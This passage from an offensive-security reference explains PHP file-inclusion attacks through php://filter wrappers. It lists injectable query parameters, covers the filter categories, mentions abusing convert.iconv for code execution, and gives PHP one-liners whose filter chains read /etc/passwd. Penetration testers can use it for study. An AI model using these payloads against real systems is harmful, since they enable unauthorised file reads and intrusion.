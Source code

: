 ```
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```

## LFI / RFI using PHP wrappers & protocols

### php://filter

PHP filters allow perform basic **modification operations on the data** before being it's read or written. There are 5 categories of filters:

* [String Filters](https://www.php.net/manual/en/filters.string.php):
  * `string.rot13`
  * `string.toupper`
  * `string.tolower`
  * `string.strip_tags`: Remove tags from the data (everything between "<" and ">" chars)
    * Note that this filter has disappear from the modern versions of PHP
* [Conversion Filters](https://www.php.net/manual/en/filters.convert.php)
  * `convert.base64-encode`
  * `convert.base64-decode`
  * `convert.quoted-printable-encode`
  * `convert.quoted-printable-decode`
  * `convert.iconv.*` : Transforms to a different encoding(`convert.iconv.<input_enc>.<output_enc>`) . To get the **list of all the encodings** supported run in the console: `iconv -l`

{% hint style="warning" %}
Abusing the `convert.iconv.*` conversion filter you can **generate arbitrary text**, which could be useful to write arbitrary text or make a function like include process arbitrary text. For more info check [**LFI2RCE via php filters**](lfi2rce-via-php-filters.md).
{% endhint %}

* [Compression Filters](https://www.php.net/manual/en/filters.compression.php)
  * `zlib.deflate`: Compress the content (useful if exfiltrating a lot of info)
  * `zlib.inflate`: Decompress the data
* [Encryption Filters](https://www.php.net/manual/en/filters.encryption.php)
  * `mcrypt.*` : Deprecated
  * `mdecrypt.*` : Deprecated
* Other Filters
  * Running in php `var_dump(stream_get_filters());` you can find a couple of **unexpected filters**:
    * `consumed`
    * `dechunk`: reverses HTTP chunked encoding
    * `convert.*`

```php
# String Filters
## Chain string.toupper, string.rot13 and string.tolower reading /etc/passwd
echo file_get_contents("php://filter/read=string.toupper|string.rot13|string.tolower/resource=file:///etc/passwd");
## Same chain without the "|" char
echo file_get_contents("php://filter/string.toupper/string.rot13/string.tolower/resource=file:///etc/passwd");
## string.string_tags example
echo file_get_contents("php://filter/string.strip_tags/resource=data://text/plain,<b>Bold</b><?php php code; ?>lalalala");

# Conversion filter
## B64 decode
echo file_get_contents("php://filter/convert.base64-decode/resource=data://plain/text,aGVsbG8=");
## Chain B64 encode and decode
echo file_get_contents("php://filter/convert.base64-encode|convert.base64-decode/resource=file:///etc/passwd");
## convert.quoted-printable-encode example
```